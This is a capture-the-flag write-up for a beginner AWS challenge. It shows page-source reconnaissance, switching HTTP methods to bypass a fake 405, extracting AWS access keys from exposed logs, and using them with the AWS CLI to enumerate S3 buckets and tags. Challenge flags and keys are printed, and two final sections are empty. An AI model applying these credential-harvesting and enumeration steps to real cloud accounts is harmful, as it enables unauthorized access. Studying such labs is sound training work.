 ![](images/2-header.png)
# Enumerating the cloud
### beginner | cloud | 125 points
<br/>

## Challenge Information
The spaceship that you will use in SPACE RACE is almost ready. One of the last steps is to verify that all of the systems are operational. Unfortunately, the AI controlling the system information decided to take a personal time off for a few days, leaving you without an easy access to the spaceship systems. This is not a problem because, as the cyber security specialist in the ship, you know the spaceship cloud infrastructure like the back of your hand.
<br/><br />

## Sub-Challenges

### [25 points] Spaceship external information endpoint
Your spaceship is located [here](http://planet-bucket-43b2a07.s3-website-eu-west-1.amazonaws.com), can you find the external information panel?

### Solution
Checking the source code of the page reveals another S3 bucket, [rocket-bucket-723aa76](https://rocket-bucket-723aa76.s3.amazonaws.com).

Downloading flag.txt (https://rocket-bucket-723aa76.s3.amazonaws.com/flag.txt) provides the flag for this sub-challenge. The external information panel file will be useful for the next sub-challenge.

Flag: `CTF{0841862f273fd2ca20ea3b94a645781071ab19d7}`

### [25 points] Obtaining the spaceship access keys
You have gained access to the external infromation endpoint. Can you access the spaceship logs to obtain the access keys?

### Solution
The external information panel contains a link to the [spaceship logs](https://g0341x75tb.execute-api.eu-west-1.amazonaws.com/logs). 


Visiting the page returns a "405" request which says that the GET method is not permitted. I immediately started looking for ways to bypass this error, only to find nothing for a long long time. 

Then something struck me and I decided to check the response header.

Status 200? Interesting. So the "method not permitted" response is actually a fake 405 response? Looks like. 

The next train of thought went to trying other HTTP methods apart from GET, which I did using `curl -X <method> <url>`.

```shell
piyagehi@Piyas-MacBook-Pro:~$ curl -X POST https://g0341x75tb.execute-api.eu-west-1.amazonaws.com/logs
405 Request method 'POST' not allowed
piyagehi@Piyas-MacBook-Pro:~$ curl -X PUT https://g0341x75tb.execute-api.eu-west-1.amazonaws.com/logs
The periscope data is optimal. Have a flag for your effort: CTF{9177a9c8bb1cd5c85934}.<br>
[
    {
        "Id": "dfa0f62de13a1719d125ac2f3382543067701c5031289006c8170d3bab33994a",
        "Created": "2021-06-24T17:33:58.623969048Z",
...
```

Nice!

Flag: `CTF{9177a9c8bb1cd5c85934}`

### [25 points] A cleaning bucket
You have managed to access the spaceship. You see a cleaning bucket, the Lambda Thrusters information panel tag and the E-space Computing Cloud system tags. What does the tag in the cleaning bucket says?

### Solution

Somewhere in the spaceship logs, AWS credentials can be found

```shell
...
"Env": [
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
    "AWS_SECRET_ACCESS_KEY=dpmlpQnMgZFZ5Nt8k7AkCTizqGrY84ZRW55lo+52",
    "AWS_ACCESS_KEY_ID=AKIA552OOUKCBWDIUCWS"
],
...
```

So of course, we set up AWS CLI with these credentials to view further information. For an introduction to AWS access keys, click here.

```bash
piyagehi@Piyas-MacBook-Pro:~$ aws configure --profile=enum-cloud
AWS Access Key ID [None]: AKIA552OOUKCBWDIUCWS
AWS Secret Access Key [None]: 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
Default region name [None]: eu-west-1
Default output format [None]: 
piyagehi@Piyas-MacBook-Pro:~$ aws s3 ls
2021-06-24 20:21:57 cleaningbucket-cf2be35
2021-06-24 20:25:07 planet-bucket-43b2a07
2021-06-24 20:24:40 rocket-bucket-723aa76
piyagehi@Piyas-MacBook-Pro:~$ aws s3 ls cleaningbucket-cf2be35
# No result
```

```shell
piyagehi@Piyas-MacBook-Pro:~$ aws s3api get-bucket-tagging --bucket cleaningbucket-cf2be35
{
    "TagSet": [
        {
            "Key": "hackyholidays",
            "Value": "users"
        },
        {
            "Key": "Flag",
            "Value": "CTF 855cc724fd34896c8875"
            "Key": "Next",
            "Value" : "Lambda Thrusters"
        }
    ]
}
```
### [25 points] Lambda Thrusters information panel
What is the tag in the Lambda Thrusters information panel?

### Solution

Flag: ``
<br/><br />
### [25 points] E-space Cloud Computing System
What is the tag in the E-space Cloud Computing System?

### Solution

Flag: ``
<br/><br />



